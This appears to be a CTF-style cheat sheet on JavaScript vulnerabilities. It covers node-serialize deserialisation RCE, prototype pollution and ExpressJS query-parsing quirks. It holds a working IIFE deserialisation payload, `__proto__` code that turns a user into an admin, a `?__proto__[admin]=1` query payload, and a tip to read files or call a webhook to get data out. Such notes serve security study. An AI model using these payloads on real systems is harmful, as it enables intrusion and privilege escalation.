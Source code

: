 # Javascript vulns 

http://jsnice.org/ Deobfuscate JavaScript

## node-serialize

This old npm package from a long long time ago is vulnerable to deserialisation attacks (as most languages are) because internally, it uses eval. We have to use JavaScript's Immediately Invoked Function Expression (IIFE) to execute code.

If you can read the JSON directly, just use `return require(fs).readFileSync()`, else feel free to call a webhook or something.

Links:
- https://www.npmjs.com/package/node-serialize
- https://github.com/luin/serialize
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var serialize = require('node-serialize');
var x = '{"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}'
var y = {"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}
// both work, since for some reason unserialize accepts any
serialize.unserialize(x);
serialize.unserialize(y);
```

## Prototype pollution

Every object in Javascript inherits from the base Object prototype. 

By overwriting/adding an attribute to `__proto__`, all other objects will also magically gain this attribute. 

```js
> a={}; b={};
< undefined
> a.__proto__.key = "value"
< 'value'
> b.key
< 'value'
```

Since `b` does not have a key of `key`, it looks up the prototype chain and finds it in its prototype. If `b` had a key of `key` set, it would have returned that defined value instead.

### Example

```js
// initial scenario
users = {
  john: {
    userid : "John",
    pass : "password",
    personal_statement : {},
    permission : 'user'
  }
}
// exploit
users['john'].personal_statement.__proto__.permission = 'admin'
// users is also of the same prototype, so it inherits the permission attribute
// now we have a arbitary admin user
users['__proto__'].permission == 'admin'
```

```js
var ihaveaccesstothis = 'hello';

var attackme = {
	'admin': false,
};

console.log(attackme.admin); // false
console.log(attackme.__proto__); // Object
console.log(ihaveaccesstothis.__proto__); // String
console.log(ihaveaccesstothis.__proto__.__proto__); // Object !

ihaveaccesstothis.__proto__.__proto__.admin = True;

console.log(attackme.admin) // true
```

Caveat: If the object has nested inheritances (eg. I want to overwrite String.toLower()), overwriting the base Object prototype won't work. We need access to the String prototype.

### In query params

Prototype pollution can also occur client-side in query params. If the query string parser returns keys directly and not as strings, we can overwrite the object's attributes.

`?__proto__[admin]=1`

It's slightly weaker as we can only pass in strings.

### RCE

If we can pass in functions, simply target an attribute function that is being called (eg. String.valueOf() or smtg else) and overwrite it to something else.

### Other stuff

Every attribute of window is a global variable (and vice versa!) This means that asdf == window.asdf, window.name == name, window.location == location etc. If we are able to set these variables, we can possibly control these values to arbitrary stuff, enabling XSS etc.

### ExpressJS Quirks

- If you have `const arg = req.query.arg;`, note that `arg` is not necessarily forced to be a `string`.
- If you pass in `?arg[a]=1`, `arg` will be an dictionary object having key `a`.
- Additionally, if you pass in `?arg=1&arg=2`, `arg` will be an array of `[1, 2]`.
- Combining the above two points:
  - `?arg[a]=1&arg[order]=flag`: `{a:'1',order:'flag'}`
  - `?arg[order]=flag&arg[order]=flag`:`{order:['flag','flag']}`